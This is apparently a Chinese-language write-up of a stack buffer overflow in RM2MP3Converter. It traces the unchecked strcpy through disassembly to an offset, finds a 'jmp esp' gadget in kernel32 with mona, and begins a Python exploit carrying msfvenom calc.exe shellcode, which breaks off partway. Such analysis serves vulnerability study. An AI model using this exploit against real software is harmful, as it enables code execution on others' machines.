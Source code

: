 ```python
06e714c0  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
06e714d0  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
```
接着分析目的字符串 a1，a1 为 Playlist_FindNextItem() 函数调用时传入的参数，根据函数调用栈可回溯到其调用位置在 RM2MP3Converter.exe 模块的 sub_41E2B0 函数中，可以看到是一个函数指针调用，其传入的参数为栈中的地址 [esp+8928h+Str]。
```C
.text:0041E3D8                 mov     ecx, 880h
.text:0041E3DD                 xor     eax, eax
.text:0041E3DF                 lea     edi, [esp+8928h+var_2200]
.text:0041E3E6                 rep stosd
.text:0041E3E8 ; 82:   while ( (*(int (__cdecl **)(char *))(v2 + 25714))(&Str) )
.text:0041E3E8                 lea     ecx, [esp+8928h+Str]
.text:0041E3EF                 push    ecx
.text:0041E3F0                 call    dword ptr [ebx+6472h]   // call MSRMfilter03!Playlist_FindNextItem()
.text:0041E3F6                 add     esp, 4
.text:0041E3F9                 test    eax, eax
.text:0041E3FB                 jz      loc_41E9D2
```
切换到伪代码界面，看到参数 Str 与 ebp 的偏移量为 0x6600 = 18(路径字符串长度) + 26094。
```C
 int v46; // [esp+18h] [ebp-8910h]
  unsigned int v47; // [esp+1Ch] [ebp-890Ch]
  char ArgList; // [esp+20h] [ebp-8908h]
  char v49; // [esp+2224h] [ebp-6704h]
  char Str; // [esp+2328h] [ebp-6600h]
  char v51; // [esp+232Bh] [ebp-65FDh]
  char v52[8704]; // [esp+4528h] [ebp-4400h]
  char v53; // [esp+6728h] [ebp-2200h]
```
至此，已分析完漏洞成因，程序中处理文件中读取的数据时，未对输入数据长度进行检查的情况下，使用 strcpy 将其复制到栈中，从而可能导致栈溢出漏洞。

# 0x03 漏洞利用
在关闭 DEP 的情况下，可以把 shellcode 写入栈中，通过溢出覆盖返回地址为 `jmp esp` 指令的地址，跳转到栈中执行 shellcode。由于系统 DLL 加载时的内存基址相对固定，且在系统重启之前都不会改变，所以使用系统 DLL 中的跳板指令可较稳定地利用漏洞。
```python
0:000> !py mona jmp -r esp -m kernel32
Hold on...
                             ...
[+] Writing results to C:\mona_files\RM2MP3Converter_2572\jmp.txt
    - Number of pointers of type 'jmp esp' : 1 
    - Number of pointers of type 'call esp' : 2 
[+] Results : 
0x75ee3165 |   0x75ee3165 (b+0x00093165)  : jmp esp |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.17617 (C:\Windows\syswow64\kernel32.dll)
0x75e80233 |   0x75e80233 (b+0x00030233)  : call esp |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.17617 (C:\Windows\syswow64\kernel32.dll)
0x75f02e2b |   0x75f02e2b (b+0x000b2e2b)  : call esp |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.17617 (C:\Windows\syswow64\kernel32.dll)
    Found a total of 3 pointers
```
这里使用结果中的第一项 0x75ee3165 进行利用。
```python
import struct

offset = 26094
ret_addr = 0x75ee3165   # address of "jmp esp"

# msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -b '\x00\x0a' -f python -v shellcode
shellcode =  "\x90"*30
shellcode += "\xda\xc7\xd9\x74\x24\xf4\x5a\x2b\xc9\xbb\x29\xe7"
shellcode += "\xb6\xd8\xb1\x31\x31\x5a\x18\x03\x5a\x18\x83\xc2"
```